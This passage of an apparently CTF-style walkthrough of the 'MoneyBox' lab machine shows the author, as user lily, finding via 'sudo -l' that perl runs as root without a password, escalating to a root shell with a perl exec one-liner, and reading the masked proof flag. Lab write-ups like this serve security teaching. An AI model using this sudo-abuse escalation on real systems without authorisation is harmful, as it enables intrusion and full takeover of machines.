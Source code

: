> And it worked! We are now user `lily`.
{: .prompt-info }
  
Lets check if we are allowed to execute commands as a super user.
```bash
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

> Yes! We are allowed to execute `/usr/bin/perl` as a super user.  
> Checking [`gtfobins`](https://gtfobins.github.io/gtfobins/perl/#sudo) on how to exploit this to get `root` access.
{: .prompt-info }

```bash
 sudo perl -e 'exec "/bin/sh";'
# whoami
root
```

> There we go! We are `root` now.
{: .prompt-info }

## get second flag
```bash
# cd /root      
# ls
proof.txt
# cat proof.txt
4******************************4
```

Pwned! <@:-)
